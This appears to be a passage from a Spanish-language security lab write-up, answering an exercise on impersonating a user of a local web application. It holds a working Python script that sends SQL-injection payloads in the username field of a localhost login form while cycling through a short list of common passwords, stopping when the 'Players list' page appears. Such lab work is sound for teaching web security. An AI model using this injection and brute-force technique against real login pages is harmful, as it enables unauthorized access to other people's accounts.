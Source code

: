 ### **Dad un ataque que, utilizando este diccionario, nos permita impersonar un usuario de esta aplicación y acceder en nombre suyo. Tened en cuenta que no sabéis ni cuántos usuarios hay registrados en la aplicación, ni los nombres de estos.**

    Se ha realizado un pequeño script en python para hacer un ataque de fuerza bruta utilizando los usuarios de la table `users`, y las contraseñas dadas en el diccionario.

    El script que se a utilizado es el siguiente:

    ```python
    import requests

    # URL del formulario de inicio de sesión
    url = 'http://localhost:8080/list_players.php'

    # Lista de contraseñas comunes para probar
    passwords = ['password', '123456', '12345678', '1234', 'qwerty', 'dragon']

    # Lista de usuarios (no se usa directamente en este script optimizado)
    usernames = ["pepito", "luis", "marcos", "lucas", "eduardo", "carlos", "ana", "lorena", "ignacio", "maria"]

    # Iteramos sobre cada contraseña
    for password in passwords:
        # Creamos el payload con la inyección SQL
        payload = {
            'username': f'" OR password="{password}"-- -',  # Inyección SQL en el campo de usuario
            'password': password  # Contraseña actual en el ciclo
        }
        
        # Enviamos la solicitud POST al servidor
        response = requests.post(url, data=payload)
        
        # Verificamos si el inicio de sesión fue exitoso
        if 'Players list' in response.text:  # Ajustar según la respuesta real del servidor
            print(f'Login successful: Password: {password}')
            break  # Salimos del bucle si encontramos una contraseña válida
    ```

    El cual va probando contraseñas hastan que en la web aparezca `Players list`, que eso quiere decir que se ha logueado.

